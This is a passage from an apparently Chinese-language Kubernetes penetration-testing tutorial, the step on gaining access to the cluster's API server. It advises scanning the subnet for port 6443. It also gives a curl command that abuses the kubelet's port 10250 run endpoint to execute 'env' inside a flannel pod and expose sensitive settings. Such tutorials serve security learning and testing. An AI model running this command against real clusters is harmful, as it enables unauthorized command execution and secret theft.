 [![](assets/1701826061-9766614fbddbae6845eb5e971261884d.png)](https://xzfile.aliyuncs.com/media/upload/picture/20231025171017-50ebfe0a-7316-1.png)  
Step 5：获得 master 访问权  
接下来可以尝试获得 master(api server) 的访问权限，默认情况下 api server 开放的端口为 6443，所以可以通过扫描同个网段开放 6443 的主机来挨个尝试，除了这种方法还可以尝试执行 env 命令来查看是否有 api server 的地址或者其他敏感信息：

```bash
curl -k -XPOST "https://192.168.17.144:10250/run/kube-system/kube-flannel-ds-xwk2t/kube-flannel" -d "cmd=env"
```

[![](assets/1701826061-d8e30f93227496ba79d1c112dea9d572.png)](https://xzfile.aliyuncs.com/media/upload/picture/20231025171053-660b416a-7316-1.png)
